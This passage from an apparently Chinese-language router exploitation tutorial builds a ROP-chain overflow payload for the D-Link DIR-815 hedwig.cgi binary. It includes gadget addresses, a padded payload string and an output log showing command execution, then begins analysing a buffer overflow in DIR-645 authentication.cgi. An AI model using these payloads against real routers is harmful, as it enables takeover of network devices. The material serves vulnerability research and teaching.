 $s5=offset_gadget1=0x77f34000+0x159CC=0x77f499cc

$ra=offset_gadget2=0x77f34000+0x158C8=0x77f498c8

$sp+0x14C+var_13C=command

```sh
#构造字符
'A'*973+0x77f871ff+'B'*(993-973-4)+0x77f499cc+'C'*(1009-993-4)+0x77f498c8+'D'*(1029-1009-4)+command
'A'*973+'\xff\x71\xf8\x77'+'B'*(993-973-4)+'\xcc\x99\xf4\x77'+'C'*(1009-993-4)+'\xc8\x98\xf4\x77'+'D'*(1029-1009-4)+'/bin/sh'+'\x00'
#设置环境变量
source set_environment.sh `python  -c "print 'uid='+'A'*973+'\xff\x71\xf8\x77'+'B'*(993-973-4)+'\xcc\x99\xf4\x77'+'C'*(1009-993-4)+'\xc8\x98\xf4\x77'+'D'*(1029-1009-4)+'/bin/ls'+'\x00'"`
#启动进程
echo "uid=1234" | chroot . ./gdbserver 192.168.33.103:1234 ./htdocs/web/hedwig.cgi
```

远程调试并继续执行，ls命令执行成功

```sh
root@debian-mipsel:~/squashfs-root# echo "uid=1234" | chroot . ./gdbserver 192.168.33.103:1234 ./htdocs/web/hedwig.cgi
Process ./htdocs/web/hedwig.cgi created; pid = 2913
Listening on port 1234
Remote debugging from host 192.168.33.2
command.sh      cgi_run2.sh     etc             proc
dev             sbin            test            usr
lib             var             mnt             gdbserver
sys             tmp             bin             environment.sh
cgi_run.sh      home            www             htdocs
```

到这里漏洞利用成功（这里还存在一个问题就是直接运行`/bin/sh`没有成功，但是`/bin/ls`成功了）。

## 第11章 Dlink DIR645便携路由器越界漏洞分析

与DIR815一样下载固件DIR-645_FIRMWARE_1.03，使用binwalk解包分析。由于漏洞点出现在authentication.cgi处理POST的参数passwd过程中。找到漏洞文件authentication.cgi，并找到其链接的二进制文件cgibin。

```sh
$ find -name "authentication.cgi"
./htdocs/web/authentication.cgi
$ file ./htdocs/web/authentication.cgi
./htdocs/web/authentication.cgi: broken symbolic link to /htdocs/cgibin
$ file ./htdocs/cgibin
./htdocs/cgibin: ELF 32-bit LSB executable, MIPS, MIPS32 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

### 漏洞分析

- 静态分析

对cgibin进行静态分析，搜索字符串`authentication.cgi`，查看交叉引用，在0x40B01C处找到处理函数`authenticationcgi_main`，在0x40B500处找到函数`read(fileno(stdin),buffer[1024],content_length)`将POST的参数读到缓冲区buffer中，这里的content_length来自于环境变量`getenv("CONTENT_LENGTH")`，因此可以控制。这里没有对content_length大小进行限制，当content_length长度大于1024字节的时候就会发生缓冲区溢出。
